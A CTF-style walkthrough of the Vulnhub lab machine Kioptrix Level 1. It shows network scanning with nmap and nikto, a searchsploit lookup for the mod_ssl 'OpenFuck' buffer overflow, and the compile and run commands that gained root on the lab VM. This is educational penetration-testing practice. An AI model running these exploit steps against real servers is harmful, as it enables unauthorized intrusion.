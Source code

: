 
# Kioptrix Level 1
1. We need to find the machine IP on our network:

	* ```ip addr show```
 ``` root@kali:~/Desktop# ip addr show
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:e7:ed:ef brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.9/24 brd 192.168.50.255 scope global dynamic noprefixroute eth0
       valid_lft 81286sec preferred_lft 81286sec
    inet6 fe80::20c:29ff:fee7:edef/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever

```

* 	 * From this output we can see on eth0:inet we have ```192.168.50.9/24```
	 * Map your local network to find the ip of the Vulnhub Machine
	 * ```nmap 192.168.50.9/24```

 ```
Nmap scan report for 192.168.50.207
Host is up (0.000072s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
443/tcp  open  https
1024/tcp open  kdm
MAC Address: 00:0C:29:78:29:0C (VMware)
```


*   * Our Vulnhub Machine is ```192.168.50.207```
2. Lets take a look at the nmap
	* We see some ports open but first we should take a look at the site since port 80 is open
3. Taking a look at the webpage
	
    ![Screenshot][K1homepage]
	* From the basic page we know that this is an Apache server running on Red Hat Linux
	* Clicking on any of the links will take you to an error page like so:
	
    ![Screenshot][K1errorpage]
	* We now know it is running ```Apache 1.3.20```
4. Checking if Apache 1.3.20 is vulnerable
	* We're going to see whether 1.3.20 has published exploits using searchsploit which searches [Exploit-db](https://www.exploit-db.com/)
	* Run ```searchsploit Apache```
	* Looking around, I couldn't find anything that I could use
	* We will try to see if ```nikto``` a web server scanner, can give us any more information
	* Run ```nikto -h 192.168.50.207```
	* Taking a look back at the ```searchsploit``` results, we can see that there is an exploit for mod_ssl versions
```root@kali:~# nikto -h 192.168.50.207
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.50.207
+ Target Hostname:    192.168.50.207
+ Target Port:        80
+ Start Time:         2018-04-09 12:50:40 (GMT-4)
---------------------------------------------------------------------------
...
+ mod_ssl/2.8.4 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ OpenSSL/0.9.6b appears to be outdated (current is at least 1.0.1j). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ OSVDB-27487: Apache is vulnerable to XSS via the Expect header
+ Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-838: Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution. CAN-2002-0392.
+ OSVDB-4552: Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system. CAN-2002-0839.
+ OSVDB-2733: Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi. CAN-2003-0542.
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-3268: /manual/: Directory indexing found.
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /test.php: This might be interesting...
+ 8345 requests: 0 error(s) and 20 item(s) reported on remote host
+ End Time:           2018-04-09 12:51:00 (GMT-4) (20 seconds)
```

* 	* In our previous ```searchsploit``` there was a mod_ssl exploit which we can leverage since we know now that mod_ssl is on 2.8.4

	* ```Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overf | exploits/unix/remote/21671.c```
	* For other searchsploit's, you can get a copy into your current directory by using mirror
	* ```searchsploit -m exploits/unix/remote/21671.c```
	* There are many resources online on how to update OpenFuck.c, but I chose to use [this](https://github.com/gazcbm/openfuck-2017)
5. Exploiting using OpenFuck.c
	* Using the instructions included in the file:
	* ```gcc -o OpenFuck OpenFuck.c -lcrypto```
	* ```./openfuck 0x6b 192.168.50.207 443 -c 50```

ROOTED!

[K1homepage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K1homepage.png
[K1errorpage]: https://github.com/jawyuhz/Vulnhub_Writeups/blob/master/Screenshots/K1errorpage.png